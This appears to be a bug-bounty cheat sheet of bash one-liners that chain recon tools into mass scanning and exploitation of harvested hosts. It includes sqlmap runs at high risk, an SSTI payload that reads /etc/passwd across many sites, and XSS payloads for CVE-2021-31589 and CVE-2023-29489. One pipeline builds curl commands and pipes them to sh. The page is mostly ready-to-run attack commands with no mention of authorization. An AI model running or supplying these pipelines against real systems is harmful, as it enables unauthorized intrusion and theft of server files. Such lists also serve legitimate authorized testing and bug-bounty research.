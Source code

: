 **Find SQL injection at scale**
```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```
**Find open redirects at scale**
```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf redirect | qsreplace 'https://example.com' | httpx -fr -title --match-string 'Example Domain'
```
**Find SSTI at scale**
```bash
echo "domain" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```
**Scanning top exploited vulnerabilities according to CISA**
```bash
subfinder -d site.com -all -silent | httpx -silent | nuclei -rl 50 -c 15 -timeout 10 -tags cisa -vv
```
**Bruteforce subdomains**
```bash
subfinder -d site.com -all -silent | httpx -silent | hakrawler | tr "[:punct:]" "\n" | sort -u > wordlist.txt

puredns bruteforce wordlist.txt site.com -r resolvers.txt -w output.txt
```
**Finding Cross-Site Scripting (XSS) using KnoXSS API**
```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh
```
**CVE-2021-31589**
```bash
cat subs.txt | while read host do; do curl -sk "$host/appliance/login.ns?login%5Bpassword%5D=test%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Buse_curr%5D=1&login%5Bsubmit%5D=Change%20Password" | grep -qs '"><svg/onload=alert(document.domain)>' && echo "$host: Vuln" || echo "$host: Not Vuln"; done
```
**CVE-2023-29489**
```bash
subfinder -d target.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path 'cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaa' -mc 400
``` 
**Clean list of host, port, and version**
```bash
mkdir nmap; cat targets.txt | parallel -j 35 nmap {} -sTVC -host-timeout 15m -oN nmap/{} -p 22,80,443,8080 --open > /dev/null 2>&1; cd nmap; grep -Hari "/tcp" | tee -a ../services.txt; cd ../
```
**Waybackurls validator**
```bash
waybackurls http://example.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort
```
**Extract endpoints from JS (Part 1)**
```bash
curl -L -k -s https://www.example.com | tac | sed "s**\\/**/**" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | awk -F '//' '{if(length($2))print "https://"$2}' | sort -fu | xargs -I '%' sh -c "curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\"" | awk -F "['\"]" '{print $2}' | sort -fu
```
**Extract endpoints from JS (Part 2)**
```bash
curl -Lks https://example.com | tac | sed "s**\\/**/**" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n**%\";wget --no-check-certificate --quiet \"%\"; basename \"%\" | xargs -I \"**" sh -c 'linkfinder.py -o cli -i **"
```